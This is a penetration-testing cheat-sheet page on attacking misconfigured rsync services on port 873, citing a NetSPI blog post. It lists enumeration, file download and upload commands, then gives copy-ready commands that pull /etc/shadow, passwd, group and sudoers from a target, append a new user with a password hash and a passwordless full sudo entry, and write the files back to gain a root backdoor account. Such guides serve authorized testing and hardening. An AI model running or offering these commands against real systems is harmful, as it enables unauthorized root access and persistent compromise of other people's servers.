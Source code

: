 # 873 - RSYNC

example of Rsyncd.conf file that allows anonymous root access to the entire file system:

```
motd file = /etc/Rsyncd.motd
lock file = /var/run/Rsync.lock
log file = /var/log/Rsyncd.log
pid file = /var/run/Rsyncd.pid

[files]
path = /
comment = Remote file share.
uid = 0
gid = 0
read only = no
list = yes
```

## enumeration

`nmap -p 873 192.168.0.1`

List directory

```
rsync 192.168.1.171::
```

list directory ipv6&#x20;

```
rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/var/
```

List sub directory contents

```
rsync 192.168.1.171::files
```

List directories and files recursively

```
rsync -r 192.168.1.171::files/tmp/
```

Download files

```
rsync 192.168.1.171::files/home/test/mypassword.txt .
```

Download folders

```
rsync -r 192.168.1.171::files/home/test/
```

Upload files

```
rsync ./myfile.txt 192.168.1.171::files/home/test
```

Upload folders

```
rsync -r ./myfolder 192.168.1.171::files/home/test
```

### Creating a New User through Rsync

If Rsync is configured to run as root and is anonymously accessible, it’s possible to create a new privileged Linux user by modifying the shadow, passwd, group, and sudoers files directly.

Note: The same general approach can be used for any vulnerability that provides full write access to the OS. A few other examples include NFS exports and uploading web shells running as root.

**Creating the Home Directory**\
Let’s start by creating our new user’s home directory.

```
# Create local work directories
mkdir demo
mkdir backup
cd demo

# Create new user’s home directory
mkdir ./myuser
rsync -r ./myuser 192.168.1.171::files/home
```

**Create the Shadow File Entry**\
The /etc/shadow file is the Linux password file that contains user information such as home directories and encrypted passwords. It is only accessible by root.

To inject a new user entry via Rsync you’ll have to:

1. Generate a password.
2. Create the line to inject.
3. Download /etc/shadow. (and backup)
4. Append the new user to the end of /etc/shadow
5. Upload / Overwrite the existing /etc/shadow

Note: Make sure to create a new user that doesn’t already exist on the system.&#x20;

Create Encrypted Password:

```
openssl passwd -crypt password123
```

Add New User Entry to /etc/shadow:

```
rsync -R 192.168.1.171::files/etc/shadow .
cp ./etc/shadow ../backup
echo "myuser:MjHKz4C0Z0VCI:17861:0:99999:7:::" >> ./etc/shadow
rsync ./etc/shadow 192.168.1.171::files/etc/
```

**Create Passwd File Entry**\
The /etc/passwd file is used to keep track of registered users that have access to the system. It does not contain encrypted password. It can be read by all users.

To inject a new user entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/passwd. (and back it up so you can restore state later)
3. Append the new user entry to the end of passwd.
4. Upload / Overwrite the existing /etc/passwd

Note: Feel free to change to uid, but make sure it matches the value set in the /etc/group file.&#x20;

&#x20;In this case the UID/GUID are 1021.

Add New User Entry to /etc/passwd:

```
rsync -R 192.168.1.171::files/etc/passwd .
cp ./etc/passwd ../backup
echo "myuser:x:1021:1021::/home/myuser:/bin/bash" >> ./etc/passwd
rsync ./etc/passwd 192.168.1.171::files/etc/
```

**Create the Group File Entry**\
The /etc/group file is used to keep track of registered group information on the system. It does not contain encrypted password. It can be read by all users.

To inject a new user entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/group. (and backup, just in case)
3. Append the new user entry to the end of group.
4. Upload / Overwrite the existing /etc/group file.

Note: Feel free to change to uid, but make sure it matches the value set in the /etc/passwd file.&#x20;

&#x20;In this case the UID/GUID are 1021.

Add New User Entry to /etc/group:

```
rsync -R 192.168.1.171::files/etc/group .
cp ./etc/group ../backup
echo "myuser:x:1021:" >> ./etc/group
rsync ./etc/group 192.168.1.171::files/etc/
```

**Create Sudoers File Entry**\
The /etc/sudoers file contains a list of users that are allowed to run commands as root using the sudo command. It can only be read by root. We are going to modify it to allow the new user to execute any command through sudo.

To inject a entry via Rsync you’ll have to:

1. Create the user entry to inject.
2. Download /etc/sudoers. (and backup, just in case)
3. Append the new user entry to the end of sudoers.
4. Upload / Overwrite the existing /etc/sudoers file.

Add New User Entry to /etc/sudoers:

```
rsync -R 192.168.1.171::files/etc/sudoers .
cp ./etc/sudoers ../backup
echo "myuser ALL=(ALL) NOPASSWD:ALL" >> ./etc/sudoers   
rsync ./etc/sudoers 192.168.1.171::files/etc/
```

Now you can simply log into the server via SSH using your newly created user and sudo sh to root!

source:

[https://blog.netspi.com/linux-hacking-case-studies-part-1-rsync/](https://blog.netspi.com/linux-hacking-case-studies-part-1-rsync/)
